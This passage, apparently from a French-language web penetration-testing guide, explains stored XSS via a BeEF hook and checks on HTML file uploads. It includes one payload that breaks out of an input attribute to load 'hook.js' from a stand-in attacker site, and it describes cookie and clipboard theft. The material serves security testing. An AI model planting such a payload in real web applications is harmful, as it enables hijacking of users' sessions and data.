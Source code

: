 Le crochet JavaScript peut être injecté en exploitant la vulnérabilité XSS dans l'application Web.

**Exemple** : Injection BeEF dans `index2.php` :

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Lorsque l'utilisateur charge la page `index2.php`, le script `hook.js` est exécuté par le navigateur. Il est alors possible d'accéder aux cookies, à la capture d'écran de l'utilisateur, au presse-papiers de l'utilisateur et de lancer des attaques XSS complexes.

> ![Exemple d'injection de bœuf](images/RubyBeef.png)\
> *Figure 4.7.2-3 : Exemple d'injection de bœuf*
>
> Cette attaque est particulièrement efficace dans les pages vulnérables qui sont consultées par de nombreux utilisateurs avec des privilèges différents.

#### Téléchargement de fichiers

Si l'application Web permet le téléchargement de fichiers, il est important de vérifier s'il est possible de télécharger du contenu HTML. Par exemple, si les fichiers HTML ou TXT sont autorisés, la charge utile XSS peut être injectée dans le fichier téléchargé. Le testeur d'intrusion doit également vérifier si le téléchargement du fichier permet de définir des types MIME arbitraires.
